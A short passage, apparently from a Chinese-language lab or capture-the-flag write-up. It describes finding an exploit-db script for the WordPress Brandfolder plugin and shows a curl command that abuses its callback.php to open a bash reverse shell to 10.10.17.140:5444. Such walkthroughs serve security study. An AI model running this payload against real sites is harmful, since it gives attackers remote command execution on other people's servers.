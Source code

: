 在 exploitdb 找到了漏洞利用脚本。

[![](assets/1704158243-cb3d5056bb7ea3d2b9578fc6deff5187.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213321-2a16dc14-a7e1-1.png)

[![](assets/1704158243-dbd43761f5a01c1e2dac73b4e9de8ada.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213329-2ee4c788-a7e1-1.png)

使用 curl 触发漏洞。

```bash
curl '127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/dev/shm/&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.17.140/5444+0>%261"'
```

[![](assets/1704158243-5acc4d5af49defbb9451d00e53dd3a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213344-38547ce6-a7e1-1.png)
